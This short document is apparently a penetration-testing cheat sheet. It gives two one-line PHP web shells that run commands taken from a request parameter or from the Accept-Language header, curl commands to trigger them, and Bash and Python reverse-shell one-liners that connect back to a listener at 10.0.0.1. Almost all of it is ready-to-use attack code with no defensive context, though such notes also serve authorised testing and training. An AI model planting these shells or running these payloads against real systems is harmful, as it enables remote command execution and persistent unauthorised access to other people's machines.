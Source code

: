 # simple shell using get
    <?php system($_REQUEST['c']); ?>
then 
    `curl http://example.com?c=whoami`

# simple shell using http header
    <?php passthru(getenv('HTTP_ACCEPT_LANGUAGE')); ?>
then `curl http://example.com -H "Accept-Language: command"`

Make sure commands are URL encoded

# Reverse shell commands
These commands can be passed as the payload once you ahve a webshell to create a more persistent shell. Make sure to create a corresponding listening service using netcat to catch the shell.

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Bash
    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
## Python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
